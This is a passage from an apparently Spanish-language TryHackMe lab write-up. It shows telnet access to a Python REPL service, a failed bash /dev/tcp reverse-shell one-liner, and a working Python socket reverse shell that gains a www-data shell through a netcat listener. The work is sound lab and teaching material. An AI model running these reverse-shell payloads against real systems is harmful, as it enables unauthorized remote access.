 A pesar de que el puerto 8000 no fue identificado como Telnet, el mensaje de TryHackMe ("Try a more basic connection") nos dio una pista.

Probé conectarme con Telnet:

```bash
(zikuta㉿zikuta)-[~]
└─$ telnet 10.10.204.147 8000
Trying 10.10.204.147...
Connected to 10.10.204.147.
Escape character is '^]'.
```

Esto confirmaba que el servicio en el puerto 8000 no es HTTP ni SSH, sino un servidor Python interactivo, estilo REPL (Read–Eval–Print Loop), que evalúa cualquier entrada como código Python.

## Ejecución de código remoto (RCE)

Desde la sesión Telnet abierta en el puerto 8000, me encontré con un entorno que ejecutaba directamente cualquier entrada como código Python. Probé primero con algo simple:

Fue entonces cuando se me ocurrió intentar lanzar una **reverse shell** para ganar acceso más cómodo desde mi terminal. Inicialmente, copié un payload que funcionaba en Bash, usando `bash -i`, como el siguiente:

```bash
__import__('os').system("bash -c 'bash -i >& /dev/tcp/10.120.245/4444 0>&1'")

```

Sin embargo, el intérprete me devolvía un error de sintaxis. Después de revisar, me di cuenta de que **estaba cometiendo el error de escribir comandos Bash dentro de un entorno que solo entiende Python puro**.

Corregí esto eliminando cualquier sintaxis propia de Bash y escribí una reverse shell completamente en Python:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.XX.XX",4444))  # ← mi IP tun0
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash"])
```

Al ejecutarlo desde la sesión Telnet, logré con éxito establecer una reverse shell como el usuario `www-data`

```bash
(zikuta㉿zikuta)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.23.120.245] from (UNKNOWN) [10.10.204.147] 50060
ls
ls: cannot open directory '.': Permission denied
whoami
www-data
pwd
/root
```
